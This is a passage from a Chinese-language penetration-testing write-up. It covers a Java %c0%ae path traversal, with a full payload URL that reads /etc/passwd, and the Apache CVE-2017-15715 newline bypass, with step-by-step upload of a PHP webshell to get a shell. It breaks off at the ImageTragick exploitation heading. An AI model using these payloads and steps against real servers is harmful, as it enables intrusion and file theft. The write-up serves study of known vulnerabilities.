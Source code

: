 java语言中会把`%c0%ae`解析为`\uC0AE`，最后转义为ASCCII字符的`.`（点）。利用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来向上跳转，达到目录穿越、任意文件读取的效果

```
/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

访问passwd文件

![image-20200909152601001](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200909152601001.png)

同样可以列出目录文件

![image-20200909152808931](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200909152808931.png)



### CVE-2017-15715 Apache HTTPD 换行解析漏洞

##### 漏洞简介及影响版本

Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.0~2.4.29版本中存在一个解析漏洞，在解析PHP时，`1.php\x0A`将被按照PHP后缀进行解析，导致绕过一些服务器的安全策略。

##### 利用过程

直接上传php后缀大马

![image-20200909171907318](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200909171907318.png)

抓取上传时的post包 hex中找到php 在 0d处右键Insert byte，添加一个0a，然后发包，成功上传

![image-20200909173822070](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200909173822070.png)

访问对应文件名+%0a 成功解析

![image-20200909173908189](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200909173908189.png)

输入大马密码getshell

![image-20200909174238426](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200909174238426.png)



### CVE-2016–3714 Imagetragick 命令执行漏洞

##### 漏洞简介及影响范围

ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。但近来有研究者发现，当用户传入一个包含『畸形内容』的图片的时候，就有可能触发命令注入漏洞。

关于这个漏洞影响ImageMagick 6.9.3-9以前是所有版本，包括ubuntu源中安装的ImageMagick。而官方在6.9.3-9版本中对漏洞进行了不完全的修复。

##### 利用过程

页面存在三个文件
